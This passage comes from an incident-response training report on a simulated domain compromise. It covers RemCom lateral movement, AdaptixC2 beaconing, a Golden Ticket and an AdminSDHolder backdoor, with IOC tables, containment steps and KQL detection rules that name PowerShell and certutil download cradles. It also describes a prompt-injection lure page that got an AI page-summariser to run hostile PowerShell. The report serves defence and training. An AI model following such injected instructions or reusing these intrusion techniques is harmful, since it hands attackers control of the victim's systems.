**→ GF-DC01 via RemCom:** hOQjiirI.exe installed as service `JWbf` at 15:00:38 by d.williams. RemCom copies itself to `ADMIN$` and registers as a temporary service.

> *Evidence: WindowsService_CL [Fig.13] + hOQjiirI.exe artefact (File 05, strings: RemCom_communicaton, RemCom_stdin/stdout/stderr) + MDE "RemoteExec malware detected" at 16:00:38. Triple-sourced. Confidence: High.*



*Fig. 13 — Service installation events. hOQjiirI.exe (RemCom) confirmed on GF-DC01. Corroborates artefact File 05.*



*Fig. 21 — t.harris execution chain on GF-SRV01 (MDE DeviceProcessEvents).*



*Fig. 14 — d.williams auth on GF-DC01. Zero failures = valid stolen credentials.*

---

### 5.8 Command and Control

**Framework: AdaptixC2** — identified by MDE at 13:09:54 UTC. Corroborated by static analysis of shellcode_encoded.bin and gfupdater.exe: both contain `13ConnectorHTTP`, `9Connector`, named-pipe pattern `\\.\pipe\%08lx`.

**Infrastructure:**
- `cdn.cloud-endpoint.net` and `api.cloud-endpoint.net` → `172.67.174.46` / `104.21.30.237` (Cloudflare)
- C2 proxied through Cloudflare CDN — HTTPS connections indistinguishable from legitimate traffic

**Beacon behaviour:** 400+ outbound HTTPS connections from GF-WS01 to `172.67.174.46:443`, beginning 10:16:43 UTC, ~30-second heartbeat. Second beacon from GF-SRV01 under t.harris from 12:51 UTC.

> *Evidence: WindowsNetwork_CL [Fig.16] + WindowsDNS_CL [Fig.17] + MDE SecurityAlert. All three sources confirm. Confidence: High.*



*Fig. 16 — 400+ C2 beacon connections to Cloudflare-proxied C2 from GF-WS01.*



*Fig. 17 — DNS confirmation: cdn.cloud-endpoint.net → 172.67.174.46. t.harris on GF-SRV01 also visible.*

**MITRE: T1071.001, T1573, T1090.002.**

---

### 5.9 Collection and Exfiltration

**Confirmed collection:** At 10:10:57 UTC, sancadmin copied Finance invoice files from `\\GF-SRV01\Finance` to `C:\Users\m.smith\Documents\Invoices\latest_invoice.txt` on GF-WS01.

> *Evidence: WindowsProcess_CL [Fig.2]. Confidence: High.*

**Possible exfiltration — unconfirmed:** AdaptixC2 beacon active via encrypted HTTPS from 10:16. Payload content not inspectable. Exfiltration cannot be confirmed or excluded. MITRE: T1041 (possible, unconfirmed).

**False positive note — Robocopy alert:** MDE "Staging activity: Robocopy-Recursive by GF-SRV01$" (13:47, 16:47) was investigated and confirmed as **MDE's own forensic collection** (mssense.exe running Robocopy to its Temp folder, uploading to `edr-eus3.us.endpoint.security.microsoft.com`). This is a detection-rule tuning issue — `mssense.exe` should be excluded.

---

### 5.10 Impact

**Full domain compromise.** KRBTGT hash obtained (Golden Ticket), LSA secrets stolen, AdminSDHolder manipulated. Every account, trust, and domain-joined system must be treated as potentially compromised.

**Persistent domain backdoor.** `svc_backup` has GenericAll on AdminSDHolder. Standard remediation will NOT remove this. Explicit ACL remediation + KRBTGT double-reset required.

**Finance data exposure.** Invoice files confirmed accessed and staged. Additional exfiltration via encrypted C2 channel possible but unconfirmed.

**Mass file rename.** High-severity ransomware-indicator alerts on GF-WS01 (11:12) and GF-SRV01 (12:18). File-level impact not confirmed — host forensics required.



*Fig. 23 — AdminSDHolder abuse confirmed. svc_backup granted GenericAll by SYSTEM-level process.*



*Fig. 22 — Full MDE alert queue: 153 alerts across all three hosts.*

---

## 6. MITRE ATT&CK Mapping

| Tactic | Technique | Name | Evidence |
|---|---|---|---|
| Initial Access | T1021.001 | Remote Services: RDP | 5.1 — [Fig.6], [Fig.7] |
| Initial Access | T1078 | Valid Accounts | 5.1 — sancadmin |
| Initial Access | T1566 | Phishing (AI lure) | 5.2 — blog_lure.html (File 01) |
| Execution | T1204 | User/Agent Execution | 5.2 — python.exe spawning loader |
| Execution | T1059.001 | PowerShell | 5.2 — [Fig.12] |
| Execution | T1543.003 | Windows Service (RemCom) | 5.7 — [Fig.13] |
| Persistence | T1053.005 | Scheduled Task | 5.3 — MDE alert [Fig.22] |
| Persistence | T1547.001 | Registry Run Keys | 5.3 — MDE alert [Fig.22] |
| Persistence | T1036 | Masquerading | 5.3 — gfupdater.exe/svchost_upd.exe |
| Persistence | T1219 | Remote Access Software (AnyDesk) | 5.3 — MDE alert [Fig.22] |
| Persistence | T1098 | Account Manipulation (AdminSDHolder) | 5.3 — [Fig.23] |
| Priv. Escalation | T1078.002 | Valid Accounts: Domain | 5.4 — d.williams, svc_backup |
| Defence Evasion | T1562.001 | AMSI bypass | 5.5 — loader.ps1 + MDE alert |
| Defence Evasion | T1055 | Process Injection (Explorer.exe) | 5.5 — [Fig.15] |
| Defence Evasion | T1090.002 | Proxy: CDN (Cloudflare) | 5.8 — [Fig.17] |
| Defence Evasion | T1218.001 | certutil LOLBin | 5.5 — [Fig.21] |
| Credential Access | T1003.001 | LSASS Memory | 5.4 — [Fig.15] |
| Credential Access | T1003.004 | LSA Secrets | 5.4 — MDE alert [Fig.22] |
| Credential Access | T1558.001 | Golden Ticket | 5.4 — MDE alert ×2 [Fig.22] |
| Discovery | T1087.002 | Domain Account Discovery | 5.6 — [Fig.23] |
| Discovery | T1069 | Permission Groups Discovery | 5.6 — [Fig.23] |
| Discovery | T1018 | Remote System Discovery | 5.6 — [Fig.23] |
| Lateral Movement | T1021.001 | RDP (WS01→SRV01) | 5.7 — [Fig.7] |
| Lateral Movement | T1021.002 | SMB / ADMIN$ (RemCom) | 5.7 — hOQjiirI.exe via ADMIN$ |
| Lateral Movement | T1570 | Lateral Tool Transfer | 5.7 — hOQjiirI.exe to DC |
| C&C | T1071.001 | Web Protocols (HTTPS) | 5.8 — [Fig.16] |
| C&C | T1573 | Encrypted Channel | 5.8 — HTTPS C2 |
| Collection | T1039 | Data from Network Share | 5.9 — [Fig.2] |
| Collection | T1074 | Data Staged | 5.9 — [Fig.2] |
| Collection | T1105 | Ingress Tool Transfer | 5.2 — shellcode download |
| Exfiltration | T1041 | Exfil Over C2 Channel | 5.9 — possible, unconfirmed |
| Impact | T1558.001 | Golden Ticket — domain-wide | 5.10 — MDE alert [Fig.22] |

---

## 7. Impact Assessment

### Systems Compromised

| Host | Role | Status | Action |
|---|---|---|---|
| GF-WS01 | User workstation — primary entry point | Compromised | Isolate and re-image |
| GF-SRV01 | File server (Finance share) — pivot host | Compromised | Isolate and re-image |
| GF-DC01 | Domain controller — full domain compromise | Critically compromised | Isolate, re-image, KRBTGT reset ×2 |

### Compromised Accounts

| Account | Status | Action |
|---|---|---|
| sancadmin | Confirmed attacker-used — initial access | Disable immediately |
| d.williams | Confirmed attacker-used — DC access | Disable immediately |
| t.harris | Confirmed attacker-used — GF-SRV01 | Disable immediately |
| svc_backup | Attacker-planted backdoor — GenericAll on AdminSDHolder | Disable + remove ACEs |
| m.smith | Staging folders used — status unconfirmed | Treat as compromised |

> ⚠️ **CRITICAL:** `svc_backup` GenericAll on AdminSDHolder means the attacker retains domain-admin-equivalent access regardless of password resets or host reimaging until the AdminSDHolder ACL is explicitly remediated and KRBTGT is reset twice.

---

## 8. Root Cause

**Primary root cause:** An administrator account (`sancadmin`) with RDP access and no multi-factor authentication could be used from an unmanaged, unmonitored endpoint with no additional verification.

**Contributing factors:**

- **No MFA on RDP** — credentials alone were sufficient. MFA would have blocked the initial entry.
- **Unmanaged endpoints with unrestricted network access** — `10.1.0.120` had RDP access to production systems despite being outside the monitored estate.
- **AI tool able to execute system commands** — the page-summariser had no execution restriction, content-filtering, or sandbox isolation.
- **Flat internal network** — the attacker moved freely between all three hosts without segmentation controls.
- **Missing detection coverage** — python.exe spawning hidden PowerShell was not covered by an analytics rule; 60+ minutes of undetected activity.

---

## 9. Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| SHA-256 | `ff7f87aedcdf2344abcf1a4dc7d0c8d1b62d2b33bab4f67ed2bb3396f4555199` | blog_lure.html — prompt injection lure |
| SHA-256 | `93164086788a0a8b5a16816922b631ff191ba1bdb5fd83cf25349ddc03af7583` | loader.ps1 — AMSI bypass + shellcode loader |
| SHA-256 | `523f4c317e03cd1ac811fa7e1c308efd6df1e2a61048c1c0bdd5b4d5ffb73c34` | shellcode_encoded.bin — AdaptixC2 payload |
| SHA-256 | `4713e5e9e54cb23c45aa608cb44e4137e915e3e963bd332136290ce85f9d4af9` | gfupdater.exe — persistent AdaptixC2 beacon |
| SHA-256 | `3c2fe308c0a563e06263bbacf793bbe9b2259d795fcc36b953793a7e499e7f71` | hOQjiirI.exe (RemCom) — DC lateral execution |
| Domain | `cdn.cloud-endpoint.net` | Primary AdaptixC2 C2 domain |
| Domain | `api.cloud-endpoint.net` | Secondary C2 domain |
| IP | `172.67.174.46` | Cloudflare proxy for C2 domains |
| IP | `104.21.30.237` | Cloudflare failover |
| IP | `10.1.0.120` | Attacker source — unmanaged internal host |
| URL | `https://cdn.cloud-endpoint.net/loader` | Stage-2 loader download |
| URL | `https://cdn.cloud-endpoint.net/update` | XOR-encoded shellcode download |
| File | `C:\ProgramData\GFUpdater\gfupdater.exe` | Persistent beacon — GF-WS01 |
| File | `C:\Windows\Temp\svchost_upd.exe` | Staging name for beacon binary |
| File | `%systemroot%\hOQjiirI.exe` | RemCom binary — GF-DC01 |
| File | `%systemroot%\vjBAfPBZ.exe` | Unknown binary — GF-DC01 |
| Service | `JWbf` | RemCom service name on GF-DC01 |
| Service | `buDH` | Unknown service on GF-DC01 |
| Named pipe | `\\.\pipe\RemCom_communicaton` | RemCom execution channel |
| Crypto key | `0x4A` (XOR) | Shellcode obfuscation key |
| Account | `sancadmin` | Primary attacker account |
| Account | `d.williams` | Compromised — DC lateral movement |
| Account | `t.harris` | Compromised — GF-SRV01 beachhead |
| Account | `svc_backup` | Attacker-planted domain backdoor |
| Registry/AD | `CN=AdminSDHolder,CN=System,DC=greenfield,DC=local` | ACE modified — svc_backup GenericAll |

---

## 10. Containment, Eradication and Recovery

| Priority | Action | Rationale |
|---|---|---|
| 1 | Reset KRBTGT password **TWICE**, 10 hours apart | Invalidates all forged Golden Tickets |
| 2 | Audit and remove svc_backup GenericAll ACE from AdminSDHolder | Removes persistent domain-level backdoor |
| 3 | Disable: sancadmin, d.williams, t.harris, svc_backup, m.smith | Removes all attacker-controlled identities |
| 4 | Isolate GF-WS01, GF-SRV01, GF-DC01 | Stops active C2 and lateral movement |
| 5 | Re-image GF-WS01 | Removes gfupdater.exe, scheduled task, Run key, AnyDesk |
| 6 | Re-image GF-SRV01 | Removes second beacon, AnyDesk, t.harris scheduled task |
| 7 | Re-image GF-DC01 | Removes RemCom, vjBAfPBZ.exe, Impacket remnants |
| 8 | Block C2 at perimeter | cdn/api.cloud-endpoint.net, 172.67.174.46, 104.21.30.237 |
| 9 | Force password reset for all domain accounts | All credentials treated as compromised |
| 10 | Disable/sandbox AI page-summariser | Closes the initial access vector |
| 11 | Review Finance share access logs | Assess data loss and regulatory obligations |
| 12 | Host forensics for mass file rename | Two High-severity ransomware-indicator alerts unresolved |

---

## 11. Recommendations and Detection Pack

### KQL Detection Rules

**Rule 1 — Scripting engine spawning hidden PowerShell download cradle**
> Covers: T1059.001, T1204, T1566 | False-positive risk: Low

```kql
WindowsProcess_CL
| where TimeGenerated > ago(1d)
| where ActingProcessName has_any ("python.exe","pythonw.exe","node.exe",
                                    "wscript.exe","cscript.exe")
| where TargetProcessCommandLine has_any ("-WindowStyle Hidden","-w h",
    "-EncodedCommand","-enc","IEX","Invoke-Expression",
    "DownloadString","DownloadData","WebClient","IWR")
| project TimeGenerated, DvcHostname, ActorUsername,
          ActingProcessName, TargetProcessCommandLine
```

**Rule 2 — Suspicious LSASS memory access**
> Covers: T1003.001 | False-positive risk: Low-Medium

```kql
WindowsProcessAccess_CL
| where TimeGenerated > ago(1d)
| where TargetProcessFilePath has "lsass"
| where GrantedAccess in ("0x1010","0x1038","0x1fffff","0x143a")
| where ActorUsername !startswith "NT AUTHORITY"
| where ActingProcessName !in ("MsMpEng.exe","mssense.exe","csrss.exe")
| project TimeGenerated, DvcHostname, ActorUsername,
          ActingProcessFilePath, GrantedAccess
```

**Rule 3 — AdminSDHolder ACL modification**
> Covers: T1098 | False-positive risk: Very Low — alert = immediate escalation

```kql
WindowsProcess_CL
| where TimeGenerated > ago(1d)
| where TargetProcessCommandLine has "AdminSDHolder"
| where TargetProcessCommandLine has_any ("GenericAll","WriteDACL",
    "WriteOwner","Add-ADPermission","Set-Acl")
| project TimeGenerated, DvcHostname, ActorUsername,
          TargetProcessCommandLine
```

**Rule 4 — certutil used as download cradle**
> Covers: T1218.001, T1105 | False-positive risk: Low

```kql
DeviceProcessEvents
| where Timestamp > ago(1d)
| where FileName =~ "certutil.exe"
| where ProcessCommandLine has_any ("-urlcache","-split","-f","http","https")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

### Hardening Recommendations

- **Enforce MFA on all RDP** — blocks credential-only entry even with valid creds
- **Implement Privileged Access Workstations (PAWs)** — admin accounts usable only from managed, monitored endpoints
- **Sandbox the AI page-summariser** — isolated container, no access to powershell.exe or cmd.exe, whitelisted network access only
- **Network segmentation** — DC and file servers not directly reachable from workstations via SMB/ADMIN$
- **Alert on AdminSDHolder modifications** — P1 alert, no suppression
- **Tune Robocopy staging detection** — exclude mssense.exe/GF-SRV01$ to remove false positives from MDE forensic collection
- **PowerShell Constrained Language Mode** — prevents unsigned scripts and encoded commands

---

## 12. Appendices

### A. Evidence Bag

| # | File | SHA-256 | Size | Role |
|---|---|---|---|---|
| 01 | blog_lure.html | ff7f87ae...5199 | 2,154 B | Prompt-injection lure targeting AI summariser |
| 02 | loader.ps1 | 93164086...7583 | 928 B | AMSI bypass + XOR-0x4A shellcode loader |
| 03 | shellcode_encoded.bin | 523f4c31...3c34 | 96,255 B | AdaptixC2 payload, decoded with key 0x4A |
| 04 | gfupdater.exe | 4713e5e9...4af9 | 94,720 B | Persistent AdaptixC2 beacon |
| 05 | hOQjiirI.exe | 3c2fe308...e7f71 | 56,320 B | RemCom — lateral execution on GF-DC01 |

All hashes verified against case manifest. Archive SHA-256: `762d59e2e09bb73bf3d08113088ecebaff950ddb55a9333cbf8641d0731facc5`.

### B. Screenshot Register

| Fig | File | Description |
|---|---|---|
| Fig.0 | fig0-sentinel-workspace.png | LAW-SilentCorridor access confirmed |
| Fig.1 | fig1-telemetry-inventory.png | 13 tables — scope confirmed |
| Fig.2 | fig2-powershell-activity.png | GF-WS01 PowerShell (loader + Finance copy) |
| Fig.5 | fig5-ip-host-map.png | 10.1.0.120 confirmed external |
| Fig.6 | fig6-sancadmin-logons.png | Failure burst + 10:02:49 success |
| Fig.7 | fig7-network-port3389.png | Port 3389 network corroboration |
| Fig.10 | fig10-execution-chain.png | In-scope execution chain |
| Fig.11 | fig11-loader-command-line.png | loader.ps1 command line confirmed |
| Fig.12 | fig12-python-parent-KEY.png | python.exe parent — KEY FINDING |
| Fig.13 | fig13-service-install-remcom.png | hOQjiirI.exe + vjBAfPBZ.exe on DC |
| Fig.14 | fig14-dwilliams-auth.png | d.williams auth — zero failures |
| Fig.15 | fig15-lsass-access-0x1010.png | LSASS dump — 0x1010 |
| Fig.16 | fig16-c2-beacons-400.png | 400+ C2 beacons |
| Fig.17 | fig17-dns-confirmation.png | DNS — C2 domain confirmed |
| Fig.18 | fig18-scheduled-tasks-benign.png | GF-SRV01 tasks — ruled out benign |
| Fig.19 | fig19-mde-alerts-216.png | MDE 216 alerts on GF-WS01 |
| Fig.20 | fig20-gfupdater-file-created.png | gfupdater.exe FileCreated |
| Fig.21 | fig21-tharris-execution-chain.png | t.harris certutil + beacon on SRV01 |
| Fig.22 | fig22-alert-queue-153.png | 153 alerts — Golden Ticket, AdminSDHolder |
| Fig.23 | fig23-adminsdholder-abuse.png | AD enumeration + AdminSDHolder ACE |

### C. Additional Screenshots



*Fig. 19 — MDE SecurityAlert queue on GF-WS01.*



*Fig. 18 — GF-SRV01 scheduled tasks ruled out as benign (Windows Defender scan + Terminal Services licensing).*

---

*This report documents a simulated incident conducted on the LOG(N) Pacific Cyber Range for training and assessment purposes.*  
*Submitted to: contact@sanclogic.com | Subject: GF-INC-2026-0704 // Chris Mondejar*
